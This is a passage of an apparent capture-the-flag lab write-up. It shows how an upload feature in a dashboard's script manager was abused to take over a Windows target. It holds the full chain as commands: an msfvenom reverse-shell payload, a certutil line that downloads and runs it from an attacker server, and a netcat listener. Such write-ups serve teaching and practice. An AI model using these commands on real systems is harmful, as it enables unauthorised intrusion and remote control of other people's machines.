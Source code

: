 ![](assets/Pasted%20image%2020250731133059.png)

So it was on to examining the dashboard in hopes of finding a way to get access.

There's a part of the dashboard that allows you to upload scripts. This might be a good way in.

### Exploit

To get there, we're going to need a payload, and file that can pull it off our server, transfer it onto the target server, and execute it.

Breaking this down, we're going to need a payload first. I used `msfvenom` to craft one out.

`msfvenom -p windows/x64/shell/reverse_tcp lhost=<attacker ip> lport=4444 -f exe -o /payloads/reverse.exe

This is what gets us the reverse shell. Next we need a script to transfer this from our server to the target, and execute it.

`certutil.exe -f -urlcache -split http://<IP>/reverse.exe c:\windows\temp\reverse.exe && cmd.exe /c c:\windows\temp\reverse.exe`

We save this bit of code as `cmd.bat` and upload it to the application manager. *Make sure to select the option that uploads the script to the /working/ directory*.

In order for this to work, we need a listener on `tcp 4444` and we need a python server hosting the `reverse.exe` file.

We run `nc -lnvp 4444`, and `python3 -m http.server`. Then we launch our script on the applications manager via the `Actions` dropdown, and listen for an incoming connection.

![](assets/Pasted%20image%2020250731134644.png)

The flag is on the desktop.
